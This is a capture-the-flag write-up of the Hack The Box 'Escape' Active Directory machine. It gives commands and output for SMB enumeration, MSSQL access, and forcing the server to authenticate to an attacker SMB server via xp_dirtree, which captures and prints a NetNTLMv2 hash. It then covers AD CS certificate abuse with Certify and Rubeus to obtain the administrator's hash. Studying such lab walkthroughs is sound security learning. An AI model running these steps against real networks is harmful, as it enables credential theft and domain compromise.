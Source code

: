 ```yaml
---
title: "Hack The Box - Escape [Medium]"
date: 2023-03-23T02:01:27+03:00
draft: true
tags: ["hackthebox"]
---
```


This is a Windows Machine which is part of an Active Directory. I would try my best to explain the stuff that I did, since that I've seen pretty bad write-ups that are not explaining anything. I also want to be honest, and I will link every write-up that I used to exploit the machine. 

I am still learning Active Directory at the time of writing this, so there might be errors, I will do my best to mitigate that!

## Enumerating

I started with a simple `nmap` scan.

```bash
$ nmap -Pn 10.10.11.202
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Now since I am new to Active Directory I turned to https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb to check what I can try.

Eventually, after trying most of them, I landed on `smbclient`

```bash
$ smbclient --no-pass -L 10.10.11.202
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
Public          Disk      
SYSVOL          Disk      Logon server share 
```

This is a list of shared folders, the one that we can take a look at is `Public`

```bash
$ smbclient -N //10.10.11.202/Public
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 06:51:25 2022
  ..                                  D        0  Sat Nov 19 06:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 08:39:43 2022

  5184255 blocks of size 4096. 1276406 blocks available
smb: \> get "SQL Server Procedures.pdf"
getting file \SQL Server Procedures.pdf of size 49551 as SQL Server Procedures.pdf (62.8 KiloBytes/sec) (average 62.8 KiloBytes/sec)
```

Opening, the PDF states that we can use `PublicUser:GuestUserCantWrite1` to log in to the SQL Server. We can use the `impacket-mssqlclient` which is a tool 

```bash
$ impacket-mssqlclient WORKGROUP/PublicUser:GuestUserCantWrite1@10.10.11.202
```

Once I was in I started enumerating the database, looking at this and that, but I had no luck, I turned to some write-ups to follow up.

Now most of the write-ups are just skipping the explanation of this step, but I think that it is really important to know what's going on, so I will do my best to explain it.

Following up this https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack attack, I tried the following thing:

I checked if I can execute `xp_dirtree`:

```SQL
SQL> EXEC sp_helprotect 'xp_dirtree';
Owner    Object                 Grantee        Grantor   ProtectType   Action           Column   

------   --------------------   ------------   -------   -----------   --------------   ------   

sys      xp_dirtree             public         dbo       b'Grant     '   Execute          .        
```

It turns out I can, so to capture the authentication hash, I need to set up an SMB server:

```bash
# My Machine
$ impacket-smbserver -smb2support smb ./smb
```

And then to execute the `xp_dirtree` on the SQL Server

```SQL
SQL> exec master.dbo.xp_dirtree '\\<myIP>\smb'
```

Doing this would catch the `AUTHENTICATE_MESSAGE`, the user and the hash.

```bash
$ impacket-smbserver -smb2support smb ./smb

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.202,52180)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:84e0a29415d2823f80593c9bc45d158c:010100000000000080fba2b8945ed9010f6267444f7024440000000001001000780056007a005000590061005000570003001000780056007a0050005900610050005700020010006c004f0054006f006f00540076007700040010006c004f0054006f006f005400760077000700080080fba2b8945ed90106000400020000000800300030000000000000000000000000300000c57e7de4e6e8e7baebb297a4bfc1a9019bc96f8f58ffbd9cb233cec428ece87f0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100340032000000000000000000
```

Now I need to crack the hash, I won't post the results here, so you have to figure that one on your own, it is simple enough! :) 

Using the cracked password, I can log in using the `evil-winrm`

```bash
$ evil-winrm --ip 10.10.11.202 --user sql_svc --password $(cat ./password)
```

Now, we need to start enumerating again. I used [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
*Evil-WinRM* PS C:\Users\sql_svc\Documents> upload /home/syl/tools/win/winPEASany.exe
```

I eventually stumbled across interesting files and I've enumerated the users. The interesting file was `C:\SQLServer\Logs\ERRORLOG.BAK` and upon further inspection I've got the password for the user `Ryan.Cooper`.

```bash
$ evil-winrm --ip 10.10.11.202 --user Ryan.Cooper --password $(cat ./password ryan_password)
...
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> gc ../Desktop/user.txt
<user_hash>
```

Now I needed to escalate, I've used this guide for misconfigured certificates that cause AD CS Domain Escalation. https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation

I've uploaded Certify to the SQL Server (user login) and tried to find vulnerable certificates.

> **NOTE**: Certify is a tool to enumerate and abuse misconfigured AD CS, you can find its source code here: https://github.com/GhostPack/Certify. Unfortunately(or fortunately) there aren't any prebuilt binaries and you have to build it yourself. It is well explained in the README.

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./Certify.exe find /vulnerable
...
[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
```

With that tool, I found a vulnerable certificate that I can use to impersonate an administrator. Following up the attack on hacktricks:

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> .\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator

... CERTIFICATE ...

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

I've downloaded the certificate on my machine and ran the command to convert it to `pfx` and I've uploaded it back to the server.

Using another tool called [Rubeus](https://github.com/GhostPack/Rubeus) that I've used to send raw request for a TGT towards the DC.

```powershell
$ ./Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /password:123

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\administrator'
[*] Using domain controller: fe80::5438:a078:e66d:b560%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
...
[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : <NTLM HASH>
```

Now, that gave me the NTLM Hash, which is the cryptographic format in which user passwords are stored on Windows systems.

I can use that with:

```
$ evil-winrm -H "<NTLM HASH>" -u "administrator" -i 10.10.11.202
M* PS C:\Users\Administrator\Documents> gc ../Desktop/root.txt
<root_hash>
```


# References

- https://blog.zerospl0it.com/posts/Escape/
- https://yu8pentest.blogspot.com/2023/02/escape.html
- https://medium.com/@Kushagra007/writeup-escape-hackthebox-dbee2d761d15
- https://breached.vc/Thread-Escape-HTB-Discussion?highlight=escape